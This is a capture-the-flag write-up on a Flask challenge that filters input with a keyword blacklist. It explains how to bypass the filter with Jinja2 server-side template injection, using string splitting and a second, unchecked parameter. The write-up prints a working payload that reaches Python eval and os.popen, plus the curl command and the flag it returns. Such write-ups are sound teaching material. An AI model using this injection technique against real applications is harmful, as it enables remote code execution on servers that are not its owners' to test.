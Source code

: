```python
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 70:
        return inp
    if len(inp) > 70:
        return "Input too long!"

@app.route('/')
def main():
    return redirect('/generate')

@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'GET':
        return render_template('generate_certificate.html')
    elif request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f'<p>Haha! No certificate for {name}</p>')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=52130)
```

Reviewing the source code, we can get an idea on what kind of exploit is involved just by looking at the type of strings blacklisted. These are common python functions, suggesting a python code injection. Exploring where our input is used, we have this line:
```python
render_template_string(f'<p>Haha! No certificate for {name}</p>')
```
A very quick google search suggests this might be SSTI, which is reasonable to believe based on the blacklist. We must utilize SSTI to display the contents of `flag.txt`. Among the commonly used SSTI functions present within the blacklist, we even see `flag.txt` is among them. 

#### Bypassing blacklist
It is clear that this blacklist must be bypassed. One possible approach is to use quotations to break string sequences. Onsra03 proposes `{{namespace['__ini''t__']['__global''s__']['o''s']['pop''en']('l\s')['rea''d'](+)}}`. However, with this we quickly approach the 70 char limit.

From the source code it is worth pointing out that only the parameter `name` is checked for blacklisted characters. If we can supply blacklisted characters in `team_name`-- or perhaps an unused parameter--then call `team_name` again within `name`, we should be able to pass the blacklisted characters to execute.

#### Building payload

Using global variable `g`, we can generate a much smaller payload from `namespace[__ini''t__]`. Secondly, we can utilize `request.form` to reference a different supplied parameter containing banned strings. At this point, our payload is small enough that referencing `team_name` is still within the length requirements. However, we could make the name parameter even smaller by referencing some single letter parameter such as `a`:
```
name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()
```
Supplying this as the post request body:
```bash
curl -X POST http://challs.n00bzunit3d.xyz:52130/generate -d "name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()"
<p>Haha! No certificate for n00bz{5571_57r1k3s_4g41n_7a1b3f4e5d}</p>
```